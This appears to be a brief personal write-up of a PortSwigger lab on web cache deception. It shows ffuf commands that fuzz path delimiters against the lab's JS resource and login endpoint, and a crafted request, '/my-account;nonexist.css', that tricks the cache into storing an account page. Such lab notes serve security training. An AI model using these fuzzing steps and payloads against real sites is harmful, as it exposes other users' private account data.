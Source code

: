 https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-path-delimiters
### Identify delimiters
- Bruteforce cache server
```sh
ffuf -u "https://0a7400cd0322c02d80b3175200b3008d.web-security-academy.net/resources/labheader/js/labHeader.jsFUZZASD" -w ./wordlist/delimiters.txt -mc "all" -fc 404
```
![[Pasted image 20250405120747.png]]
- bruteforce origin server endpoint
```sh
ffuf -u "https://0a7400cd0322c02d80b3175200b3008d.web-security-academy.net/loginFUZZasd" -w wordlist/delimiters.txt -d "email=asd%40trsd.com&csrf=QXAvevw2iutJhBQ8dSNcdE5KaaNJ27m9" -X POST -H "Content-Type: application/x-www-form-urlencoded" -mc "all" -fc 404
```
literally all the same delimiters used by the origin server just cause an error on the CDN, it's like if they choose the cdn and http server less compatible
![[Pasted image 20250405120956.png]]
And the cache store by extension:
`GET /my-account;nonexist.css`